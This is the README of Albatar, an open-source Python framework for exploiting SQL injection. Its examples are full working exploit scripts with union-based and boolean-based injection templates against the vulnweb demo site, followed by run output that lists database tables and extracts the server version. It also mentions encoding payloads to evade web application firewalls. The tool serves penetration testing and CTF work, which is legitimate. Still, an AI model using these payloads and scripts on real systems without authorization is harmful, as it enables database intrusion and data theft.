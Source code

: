 I wrote Albatar to have a neat and tidy tool to exploit SQL Injection vulnerabilities.

Unlike [sqlmap](http://sqlmap.org/), Albatar will not detect SQL Injection vulnerabilities but it is designed to exploit not-so-straightforward SQLIs where sqlmap would need tweaking and patching to work.

Albatar is a framework in Python. As a result, you need to write some Python code to be able to exploit the SQLI. Then simply invoke your script by passing sqlmap-like command line options (e.g. --dbs, --banner ...) to retrieve data from the database.

Currently, Albatar supports MySQL, MSSQL and Oracle with the Union, Error, Boolean and Time techniques.

## Examples

* Simple union-based SQLI (MySQL)

Let's use Albatar to exploit a dead-simple union-based SQLI at http://testphp.vulnweb.com/artists.php?artist=1. Clone the repository, and create the below script:
```python
from albatar import *
from urllib import quote
import re

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def extract_results(headers, body, time):
  return re.findall(':ABC:(.+?):ABC:', body, re.S)

def mysql_union():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/artists.php?artist=${injection}',
      method = 'GET',
      response_processor = extract_results,
      encode_payload = quote,
      )

  template = '-1 union all select null,null,concat(0x3a4142433a,X,0x3a4142433a) from ${query}-- '

  return Method_union(make_requester, template)

sqli = MySQL_Inband(mysql_union())

for r in sqli.exploit():
  print r
```

And execute the script to exploit the SQLI:
```bash
$ python testphp-union.py -D acuart --tables
17:39:59 albatar - Starting Albatar v0.0 (https://github.com/lanjelot/albatar) at 2016-04-21 17:39 AEST
17:39:59 albatar - Executing: ('(SELECT COUNT(*) X FROM information_schema.tables WHERE table_schema="acuart")a', '(SELECT table_name X FROM information_schema.tables WHERE table_schema="acuart" LIMIT ${row_pos},${row_count})a')
17:39:59 albatar - count: 8
artists
carts
categ
featured
guestbook
pictures
products
users
17:40:05 albatar - Time: 0h 0m 5s
```

* Simple boolean-based SQLI (MySQL)

Here's how to exploit a boolean-based SQLI at http://testphp.vulnweb.com/listproducts.php?cat=1.
```python
from albatar import *
from urllib import quote
import re

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  if 'Lorem ipsum dolor sit amet' in body:
    return 1
  else:
    return 0

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/listproducts.php?cat=${injection}',
      method = 'GET',
      response_processor = test_state_grep,
      encode_payload = quote
      )

  template = '1 and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask}'

  return Method_bitwise(make_requester, template)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print r
```

And execute:
```bash
$ python testphp.py -b
14:19:22 albatar - Starting Albatar v0.0 (https://github.com/lanjelot/albatar) at 2016-04-21 14:19 AEST
14:19:22 albatar - Executing: 'SELECT VERSION()'
5.1.73-0ubuntu0.10.04.1
14:19:41 albatar - Time: 0h 0m 19s
```

* Encoding / WAF evasion

If you need to encode your payload to meet specific requirements, simply code a function to mangle the payload in every request.
The web task [luhn-300](https://github.com/ctfs/write-ups-2016/tree/master/nullcon-hackim-2016/web/luhn-300) for Hackim CTF 2016 was a good example to showcase this.
